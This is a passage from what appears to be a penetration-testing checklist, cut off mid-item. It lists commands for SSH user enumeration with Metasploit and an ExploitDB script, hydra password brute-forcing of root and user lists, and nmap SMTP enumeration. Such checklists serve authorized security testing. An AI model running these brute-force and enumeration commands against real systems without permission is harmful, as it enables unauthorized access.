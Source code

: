     ```bash
    # using msf
    msf > use auxiliary/scanner/ssh/ssh_enumusers
    # leveraging exploit from ExploitDB
    python /usr/share/exploitdb/platforms/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $IP
    ```
*   [ ] Bruteforce root

    ```bash
    hydra -v -V -l root -P password-file.txt ssh://$IP
    ```
*   [ ] Bruteforce list of user

    ```bash
    hydra -v -V -L userlist.txt -P password-file.txt ssh://$IP
    ```
*   [ ] Use requested Key Exchange List

    ```bash
    ssh user@$IP -oKexAlgorithms={kex\_list}
    ```
*   [ ] Use requested cipher

    ```bash
    ssh user@$IP -c {cipher}
    ```
*   [ ] Use requested MAC

    ```bash
    ssh user@$IP -m {MAC}
    ```

#### SMTP (TCP 25)

*   [ ] Enumeration with nmap

    ```bash
    nmap --script smtp-commands,smtp-enum-users,smtp-ntlm-info,smtp-open-relay -Pn -oN nmap/smtpEnum -p 25,465,587 $IP
    ```
* [ ] Any known vulnerability?
  * [ ] Check https://www.exploit-db.com/
  * [ ] Check https://www.cvedetails.com/
  * [ ] Check https://nvd.nist.gov/
  *   [ ] Check on google

      ```bash
      site:github.com *Service version.release*
      ```
  *   [ ] Check with nmap

